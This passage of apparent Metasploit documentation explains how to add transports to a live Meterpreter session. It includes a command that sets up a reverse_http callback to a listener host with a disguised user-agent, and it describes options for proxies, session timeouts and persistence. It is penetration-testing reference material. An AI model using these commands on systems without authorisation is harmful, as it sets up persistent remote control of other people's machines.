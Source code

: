 ### Adding transports

Adding transports gives Meterpreter the ability to work on different transport mechanisms with the goal of keeping the sessions alive for longer. The command for adding new transports varies slightly depending on the transport that is being added.

The following command shows a simple example that adds a `reverse_http` transport to an existing Meterpreter session. It specifies a custom communications timeout, retry total and retry wait, and also specifies a custom user-agent string to be used for the HTTP requests:

```bash
meterpreter > transport add -t reverse_http -l 10.1.10.40 -p 5105 -T 50000 -W 2500 -C 100000 -A "Totes-Legit Browser/1.1"
[*] Adding new transport ...
[+] Successfully added reverse_http transport.
```

This command is what was used to create the transport that was listed in the sample verbose output for the `transport list` command. Here's a deeper explanation of the parameters:

* The `-t` option is what tells Metasploit what type of transport to add. The options are `bind_tcp`, `reverse_tcp`, `reverse_http` and `reverse_https`. These match those that are used for the construction of the original payloads. Given that we are not dealing with stages, there is no `reverse_winhttps` because Meterpreter always uses the WinHTTP API behind the scenes anyway.
* The `-l` option specifies what we all know as the `LHOST` parameter.
* The `-p` option specifies what we all know as the `LPORT` parameter.
* The `-T` option matches the `retry total` parameter. The measure of this value is in seconds, and should be a positive integer that is more than `-W`.
* The `-W` option matches the `retry wait` parameter. The measure of this value is in seconds and should be a positive integer that is less than `-T`.
* The `-C` option matches the `communication timeout`. The measure of this value is in seconds and should be a positive integer.
* The `-A` specifies a custom user agent that is used for HTTP requests.

It is also possible to specify the following:

* The `-u` option allows the addition of a local URI (`LURI`) value that is prepended to the UUID URI that is used for all requests. This URI value helps segregate listeners and payloads based on a URI.
* The `-H` option specifies a proxy host/IP. This parameter is optional.
* The `-B` option specifies a proxy type, and needs to be set to `http` or `socks`. If not specified alongside the `-H` parameter, the default type is `http`.
* The `-P` option specifies the port that the proxy is listening on. This should be set when `-H` is set.
* The `-U` option specifies the username to use to authenticate with the proxy. This parameter is optional.
* The `-N` option specifies the password to use to authenticate with the proxy. This parameter is optional.
* The `-X` option specifies the overall Meterpreter session timeout value. While this value is not transport-specific, the option is provided here so that it can be set alongside the other transport-specific timeout values for ease of use.
* Finally the `-c` parameter can be used to indicate the expected SSL certificate. This parameter expects a file path to an SSL certificate in `PEM` format. The SHA1 hash of the certificate is extracted from the file, and this is used during the request validation process. If this file doesn't exist or doesn't contain a valid certificate, then the request should fail.
